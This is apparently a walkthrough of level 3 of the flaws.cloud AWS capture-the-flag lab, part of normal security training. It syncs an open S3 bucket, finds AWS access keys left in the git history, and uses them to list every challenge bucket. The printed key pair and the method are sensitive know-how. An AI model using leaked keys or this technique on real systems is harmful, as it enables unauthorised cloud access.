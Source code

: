 ```
$ aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2

... it will download all the files ...
```

Now, with `git log` we can get the commit history

```
$ git log
...
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

yay, there is a commit named as `Oops, accidentally added something I shouldn't have`. So there might be some juicy content in that file.

On checking difference between commits, we can see aws credentials.

```
$ git diff b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 f52ec03b227ea6094b04e43f475fb0126edb5a61
diff --git a/access_keys.txt b/access_keys.txt
new file mode 100644
index 0000000..e3ae6dd
--- /dev/null
+++ b/access_keys.txt
@@ -0,0 +1,2 @@
+access_key AKIAJ366LIPB4IJKT7SA
+secret_access_key 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
```

Using `aws config` we can configure new user's credentials.

If we list all the buckets, we can see all the buckets from level 1 to 6. But of course you can't cheat by going to leevl 5 or 6, because the creator already know about it, haha. It will say `Don't try to cheat and skip levels.`

```
$ aws s3api list-buckets
{
    "Buckets": [
        {
            "Name": "2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud",
            "CreationDate": "2017-02-12T21:31:07.000Z"
        },
        {
            "Name": "config-bucket-975426262029",
            "CreationDate": "2017-05-29T16:34:53.000Z"
        },
        {
            "Name": "flaws-logs",
            "CreationDate": "2017-02-12T20:03:24.000Z"
        },
        {
            "Name": "flaws.cloud",
            "CreationDate": "2017-02-05T03:40:07.000Z"
        },
        {
            "Name": "level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud",
            "CreationDate": "2017-02-24T01:54:13.000Z"
        },
        {
            "Name": "level3-9afd3927f195e10225021a578e6f78df.flaws.cloud",
            "CreationDate": "2017-02-26T18:15:44.000Z"
        },
        {
            "Name": "level4-1156739cfb264ced6de514971a4bef68.flaws.cloud",
            "CreationDate": "2017-02-26T18:16:06.000Z"
        },
        {
            "Name": "level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud",
            "CreationDate": "2017-02-26T19:44:51.000Z"
        },
        {
            "Name": "level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud",
            "CreationDate": "2017-02-26T19:47:58.000Z"
        },
        {
            "Name": "theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud",
            "CreationDate": "2017-02-26T20:06:32.000Z"
        }
    ],
    "Owner": {
        "DisplayName": "0xdabbad00",
        "ID": "d70419f1cb589d826b5c2b8492082d193bca52b1e6a81082c36c993f367a5d73"
    }
}
```

Next, level 4: http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/

# How to stop this vulnerability
- People often leak AWS keys and then try to cover up their mistakes without revoking the keys. You should always revoke any AWS keys (or any secrets) that could have been leaked or were misplaced. Roll your secrets early and often.
